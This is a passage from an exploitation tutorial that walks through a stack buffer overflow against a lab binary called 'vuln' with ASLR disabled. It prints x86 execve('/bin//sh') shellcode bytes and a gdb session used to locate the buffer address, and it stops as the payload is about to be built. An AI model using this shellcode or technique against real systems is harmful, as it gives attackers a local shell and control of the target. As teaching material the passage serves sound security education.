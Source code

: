     \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

> ### Finding a possible place to inject shellcode

In this example `buf` seems to be the perfect place. We can insert the shellcode by passing it inside the first parameter while running `vuln`. But how do we know what address `buf` will be loaded in stack? That's where `gdb` will help us. As ASLR is disabled we are sure that no matter how many times the binary is run, the address of `buf` will not change.

From the official website of [GDB](https://www.gnu.org/software/gdb/)

> GDB, the GNU Project debugger, allows you to see what is going on `inside' another program while it executes -- or what another program was doing at the moment it crashed.

Basically, with `gdb` you can run a process, stop it at any given point, examine the memory/etc. It is good to get acquainted with it, however, I shall be using a subset of its features.

So let's run `vuln` using gdb:

```sh
vampire@linux:/home/test$ gdb -q vuln
Reading symbols from vuln...(no debugging symbols found)...done.
(gdb) break func
Breakpoint 1 at 0x8048456
(gdb) run $(python -c 'print "A"*116')
Starting program: /home/test/vuln $(python -c 'print "A"*116')

Breakpoint 1, 0x08048456 in func ()
(gdb) print $ebp
$1 = (void *) 0xffffce78
(gdb) print $ebp - 0x6c
$2 = (void *) 0xffffce0c
```

I set a breakpoint at the `func` function. I then started the binary with a payload of length 116 as the argument. Printing the address `ebp - 0x6c` shows that `buf` was located at `0xffffce0c`. However this need not be the address of `buf` when we run the program outside of `gdb`. This is because things like environment variables and the name of the program along with arguments are also pushed on the stack. Although, the stack starts at the same address(because of ASLR disabled), the difference in the method of running the program will result in the difference of the address of `buf`. This difference will be around a few bytes and I will later demonstrate how to take care of it.

**Note**: The length of the payload will have an effect on the location of `buf` as the payload itself is also pushed on the stack(it is part of the arguments). I used one of length 116, which will be the length of the final payload that we'll be passing. In case, you change the length of your payload dramatically, always remember to find the address again.

> ### Transfering execution flow of the program to the inserted shellcode

This is the easiest part. We have the shellcode in memory and know its address(with an error of a few bytes). We have already found out that `vuln` is vulnerable to buffer overflow and we can modify the return address for function `func`.

> ### Crafting payload

Let's insert the shellcode at the end of the argument string so its address is equal to the address of `buf` + some length. Here's our shellcode:
